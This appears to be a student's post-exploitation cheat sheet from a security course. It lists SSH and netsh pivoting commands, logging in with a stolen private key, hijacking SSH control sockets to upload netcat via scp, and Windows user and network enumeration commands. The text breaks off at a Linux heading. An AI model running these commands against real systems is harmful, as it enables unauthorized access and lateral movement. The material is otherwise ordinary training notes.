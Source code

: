 post exploitation
----------------------
ssh overview 
linux: 
- ssh USER@<PIVOT IP> -R <REMOTE PORT ON PIVOT>:TARGETHOST:TARGETPORT -L <USER PORT ON LOCAL>:TARGETHOST:TARGETPORT
Windows:
- port proxy
- netsh interface portproxy add v4tov4 listenport=<LocalPort> listenaddress=<LocalIP> connectport=<TargetPort> connectaddress=<TargetIP> protocol=tcp
- netsh interface portproxy show all
- netsh interface portproxy delete v4tov4 listenport=<LocalPort>
- netsh interface portproxy reset



ssh keys
----------------------
chmod 600 /home/student/stolenkey
ssh -i /home/student/stolenkey jane@1.2.3.4


control sockets
--------------------
creation
- ssh -M -S /tmp/s -o StrictHostKeyChecking=no -o UserKnownHostFile=/dev/null user@<IP ADDRESS> <TUNNEL COMMANDS -R or -L>
access to the socket
- ssh -S /tmp/s <anything> 
making a new tunnel
-ssh -S /tmp/jumpbox user@ip -O forward -L 2222:192.168.0.10:22

scp 
====
upload 
- scp -o 'ControlPath=<control/socket/location>' [LOCAL/FILE/TO/TRANSFER] [USER]@<TARG_IP>:[/DEST/FILENAME]
- scp -o 'ControlPath=/tmp/s' /tmp/netcat root@127.0.0.1:/tmp/netcat
download
- scp -o 'ControlPath=<control/socket/location>' [USER]@<TARG_IP>:[/FILE/TO/DOWNLOAD] [/LOCAL/DOWNLOAD/FILE/LOCATION]
- scp -o 'ControlPath=/tmp/s' root@127.0.0.1:/tmp/netcat .



bringing the socket over??
--------------------------------
ssh -S /tmp/s x@x
scp -o 'ControlPath=/tmp/s' x@x:<Path>



user enumaeration
-----------------
windows
=================
- net user
- tasklist /v
- tasklist /svc
- ipconfig /all
- qwinsta
- wmic useraccount get name,sid
- net localgroup
- netstat /anob
- route print
- arp -a
===============
linux